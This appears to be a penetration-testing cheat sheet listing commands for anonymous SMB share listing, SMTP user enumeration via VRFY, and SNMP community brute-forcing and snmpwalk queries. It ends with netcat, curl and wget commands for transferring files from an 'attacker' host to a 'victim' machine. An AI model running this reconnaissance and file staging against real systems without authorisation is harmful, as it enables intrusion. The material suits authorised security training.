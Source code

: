 	smbclient -L <[IP]> -N

	smbclient \\<[IP]>\share -N

# SMTP

	nmap -p25 <[SUBNET]> --open

	nc -nv IP 25

	VRFY <[USERNAME]>

# SNMP

<b>Steps: nmap scan udp 161, create target IP list, create community list file, use onesixtyone + snmpwalk</b>

	nmap -sU --open -p161 <[SUBNET]> --open

	onesixtyone -c community -i <[SMNP_IP_LIST]>

	snmpwalk -c public -v1 <[IP]> <mib-values>

<b>Mib-values (for snmpwalk):</b>

	1.3.6.1.2.1.25.1.6.0 System Processes

	1.3.6.1.2.1.25.4.2.1.2 Running Programs

	1.3.6.1.2.1.25.4.2.1.4 Processes Path

	1.3.6.1.2.1.25.2.3.1.4 Storage Units

	1.3.6.1.2.1.25.6.3.1.2 Software Name

	1.3.6.1.4.1.77.1.2.25 User

	1.3.6.1.2.1.6.13.1.3 TCP Local Ports
	
# File Transfer Linux

<b>Netcat:</b>

	On Victim machine (client):

	nc -nlvp 4444 > <[FILE]>

	On Attacker machine (server):

	nc -nv 10.11.17.9 4444 < <[FILE_TO_SEND]>

<b>Curl:</b>

	curl -O http://<[IP]>/<[FILE]>
	
<b>Wget:</b>

	wget http://<[IP]>/<[FILE]>
	